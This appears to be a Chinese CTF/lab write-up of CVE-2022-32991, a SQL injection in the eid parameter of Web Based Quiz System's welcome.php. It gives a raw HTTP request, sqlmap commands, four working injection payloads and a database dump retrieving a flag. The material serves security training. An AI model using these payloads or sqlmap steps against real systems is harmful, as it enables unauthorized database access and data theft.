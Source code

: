 ```yaml
---
title: "CVE-2022-32991"
date: 2024-07-25
tags: ["春秋云镜","CVE","SQLi"]
featured_image: "https://static.guyu.pro/yunjing.ichunqiu.com/CVE.webp"
draft: false
---
```


<https://nvd.nist.gov/vuln/detail/CVE-2022-32991>

## Description 

Web Based Quiz System v1.0 was discovered to contain a SQL injection vulnerability via the eid parameter at welcome.php

## 演示

环境: [春秋云镜 免费空间>CVE-2022-32991](https://yunjing.ichunqiu.com/cve/detail/750)

### 1.登录

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/1.webp)

尝试注册用户

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/2.webp)

### 2.验证

<http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e'&n=1&t=10>

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/3.webp)

### 3.利用

因为要在已登录状态注入，需要带上cookie

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/4.webp)

保存为750，在url地址参数`eid=5b141f1e8399e`后添加`*`，让sqlmap指定位置注入

```http

GET /welcome.php?q=quiz&step=2&eid=5b141f1e8399e*&n=1&t=10 HTTP/1.1
Host: eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1721788611,1721803958; PHPSESSID=cnam4bkgd0a0so8md1bqj6qbnn
Connection: close
```

使用sqlmap注入

```bash
$ sqlmap -r 750
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' AND 6069=6069 AND 'sWKv'='sWKv&n=1&t=10

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' OR (SELECT 8600 FROM(SELECT COUNT(*),CONCAT(0x7170767871,(SELECT (ELT(8600=8600,1))),0x716a627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'OiEz'='OiEz&n=1&t=10

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' AND (SELECT 1465 FROM (SELECT(SLEEP(5)))egvA) AND 'lzIQ'='lzIQ&n=1&t=10

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' UNION ALL SELECT NULL,NULL,CONCAT(0x7170767871,0x51654f6951587a78465a5169726258774f6a646d644379745761756a4547746d794d4f7256734c6b,0x716a627871),NULL,NULL-- -&n=1&t=10
---
[23:26:07] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.2.20
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
$ sqlmap -r 750 --current-db
current database: 'ctf'
$ sqlmap -r 750 --tables -D ctf
[9 tables]
+-----------+
| admin     |
| history   |
| options   |
| rank      |
| user      |
| answer    |
| flag      |
| questions |
| quiz      |
+-----------+
$ sqlmap -r 750 --dump -D ctf -T flag
Database: ctf
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{506b496e-2e73-473f-a206-ea9dba080930} |
+--------------------------------------------+
```

